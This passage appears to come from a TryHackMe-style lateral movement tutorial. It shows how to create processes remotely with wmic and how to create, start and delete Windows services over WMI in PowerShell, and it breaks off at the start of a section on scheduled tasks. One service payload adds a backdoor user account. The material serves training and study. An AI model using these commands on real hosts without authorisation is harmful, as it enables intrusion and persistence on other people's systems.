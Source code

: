 Notice thatÂ WMIÂ won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:

```shell-session
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```


## Creating Services Remotely withÂ WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCPÂ (DCERPC)
    - 5985/TCPÂ (WinRMÂ HTTP) or 5986/TCPÂ (WinRM HTTPS)
- **Required Group Memberships:**Â Administrators

We can create services withÂ WMIÂ throughÂ Powershell. To create a service called THMService2, we can use the following command:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

And then, we can get a handle on the service and start it with the following commands:

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Finally, we can stop and delete the service with the following commands:

```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```


## Creating Scheduled Tasks Remotely withÂ WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCPÂ (DCERPC)
    - 5985/TCPÂ (WinRMÂ HTTP) or 5986/TCPÂ (WinRM HTTPS)
- **Required Group Memberships:**Â Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:
